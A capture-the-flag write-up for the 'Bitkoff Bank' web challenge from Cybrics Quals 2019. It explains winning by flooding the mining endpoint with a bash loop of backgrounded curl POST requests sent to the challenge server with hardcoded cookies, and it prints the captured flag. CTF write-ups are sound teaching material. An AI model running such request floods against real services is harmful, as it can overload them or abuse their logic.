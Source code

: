 ```yaml
---
title: "Bitkoff Bank - Cybrics Quals 2019"
date: 2019-07-21T21:50:37+02:00
tags:
    - "CTF"
    - "CybricsQuals2019"
    - "Writeup"
---
```


![Description](/images/cybrics-2019/bitkoff-bank/task.png)

This challenge is a web based challenge, here is the registration/login page:
![Web](/images/cybrics-2019/bitkoff-bank/web.png)

After the registration we are provided with a simple web interface for mining
coins:
![UI](/images/cybrics-2019/bitkoff-bank/ui.png)

We immediately see that we need 1 USD to buy the flag, we can mine 0.0000000001
BTCs with a click and we can convert BTC into USD and viceversa.

The thing that immediately came to my mind is to use `curl` to automate the
BTC mining, so this is the command I used:
```bash
for i in {0..10000000}; do
curl -i -s -k  -X $'POST' -H $'Cookie: name=samir; password=samir' \
    -b $'name=samir; password=samir' \
    --data-binary $'mine=1' $'http://95.179.148.72:8083/index.php' 2>&1 &
done
```

I've done the request appending `&` to the command so that it forks in the
backround, making the mining process much faster. I know it could have been done
better, probably with python and async requests, but there were 12+ hours.

After less than one hour the amount of BTCs allowed us to buy the flag.

### Flag
```
cybrics{50_57R4n93_pR3c1510n}
```

Note: buying the auto-miner was not a good idea because you could have bought as
many as you want but they were doing only one click a second. And even then, the
page would refresh every second, making the page containing the flag disappear.
Luckily, I had burp intercepting the traffic.
